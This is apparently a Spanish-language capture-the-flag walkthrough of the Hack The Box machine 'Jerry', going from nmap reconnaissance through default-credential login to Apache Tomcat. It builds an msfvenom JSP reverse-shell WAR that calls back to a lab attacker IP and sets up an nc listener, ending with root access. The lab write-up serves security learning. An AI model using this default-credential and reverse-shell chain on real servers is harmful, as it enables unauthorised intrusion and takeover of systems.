 ```yaml
---
description: '✍️ Autor: sau123🔍 Dificultad: Fácil 📅 Fecha de creación: 15/04/2022'
---
```


# Jerry

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.95
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1256).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.10.95
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1257).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 8080 (HTTP)**: Se ha detectado un servidor web Apache Tomcat con la versión 7.0.88 en ejecución. Esta versión puede contener vulnerabilidades conocidas, por lo que se recomienda verificar exploits públicos relacionados.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p8080 -v 10.10.10.95
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (1258).png" alt=""><figcaption></figcaption></figure>

Revisando el puerto 8080 nos encontramos con un Apache Tomcat por lo que nos intentamos loguear con las credenciales por defecto.

{% embed url="https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/tomcat/index.html" %}

Nos logueamos con **admin**:**admin.**

<figure><img src="../../.gitbook/assets/image (1259).png" alt=""><figcaption></figcaption></figure>

Nos salen unas credenciales para loguearnos.

<figure><img src="../../.gitbook/assets/image (1260).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Vemos que podemos subir archivos por lo que creamos uno malicioso.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f war -o reverse2.war
```

<figure><img src="../../.gitbook/assets/image (1261).png" alt=""><figcaption></figcaption></figure>

Nos ponemos en escucha.

```
nc -nlvp 443
```

<figure><img src="../../.gitbook/assets/image (1262).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

somos **root.**

<figure><img src="../../.gitbook/assets/image (1263).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1264).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1265).png" alt=""><figcaption></figcaption></figure>
